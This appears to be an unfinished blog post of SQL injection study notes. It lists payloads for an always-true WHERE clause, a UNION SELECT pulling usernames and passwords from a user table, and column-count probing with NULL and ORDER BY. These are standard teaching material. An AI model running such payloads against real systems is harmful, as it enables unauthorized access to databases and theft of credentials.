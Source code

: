 ```yaml
---
layout: post
title: Title: SQL Payloads
status: in progress
type: post
published: true
comments: true
date: 2021-10-2
---
```


### Payloads
 
 #### Always True
 The following will cause the quire to allways to be true:
 ```SQL
 '+OR+1=1--
 ```
 This is use full when you can inject into a where clause like in Snip 1
 
 ### Union from other tables
 This attack assumes you are displaying items to the screen and can inject into the where clause of a query.
 ```SQL
 stuff'+UNION+SELECT+username,+password+FROM+user--
 ```
 In this case username and password are the names of the colums that we are pulling from and user is the table we are pulling them from
 
 ### Brute Force Column num with null
 ```SQL
 `' UNION SELECT NULL--  
' UNION SELECT NULL,NULL--  
' UNION SELECT NULL,NULL,NULL--  
etc.
```
Will (hopefully) throw a detectable error when the number of NULL's does not match the number of columns in the tale you are UNIONing with

Important notes: 
 - this may cause null pointer errors which you may or may not see when the data is processed
 - Null is also used because it matches every data type

 OS Specific Info
	- On oracle every select must have a where. In selecting null we can use the DUAL table so `UNION SELECT NULL FROM DUAL--`

  ### Brute Force Column num with ORDER BY
  ```SQL  
' ORDER BY 1--  
' ORDER BY 2--  
' ORDER BY 3--  
' ORDER BY N--  
etc.
```
Where this should only work when the index of the column (the number) exists in the database. So if N > the number of columns an error will occur.
